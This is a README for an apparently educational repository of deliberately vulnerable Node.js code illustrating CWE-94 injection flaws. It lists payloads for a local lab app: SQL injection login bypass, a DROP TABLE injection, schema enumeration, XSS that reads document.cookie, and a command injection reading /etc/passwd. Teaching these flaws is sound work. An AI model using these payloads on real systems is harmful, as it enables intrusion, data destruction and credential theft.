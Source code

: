 # CWE-94-examples

This repository contains examples of code that violates CWE-94: Improper Control of Generation of Code ('Code Injection')

## Running the examples

```npm install```

```node app.js```

If you want to use nodemon:

```npm install -g nodemon```

```nodemon app.js```

Landing page:

```http://localhost:3000/```

## Examples

### Example 1

Page: /login

username:  `nesto' OR 1=1; --`
password: any

### Example 2

Page: /news

Search: `%'; --`

### Example 3

Page: /news
Add News data: `',''); DROP TABLE news --`

### Example 4

Page: /news
Add News data: `tajna tabela: ' || (SELECT tbl_name FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'),'user') --`

### Example 5

Page: /news
Clicking on link: `http://localhost:3000/news?search=%3Cimg%20src=x%20onerror=%22alert(5)%22/%3E`

### Example 6
Page: /news
Create new news with title: ` <img src=x onerror="alert(6)"/>`

### Example 7

Page: /news_alert
Clicking on link: `http://localhost:3000/news_alert?search=0%22);%20alert(document.cookie%2B%20%22`

### Example 8

Page: /list
Enter as folder to list: `/usr; cat /etc/passwd`
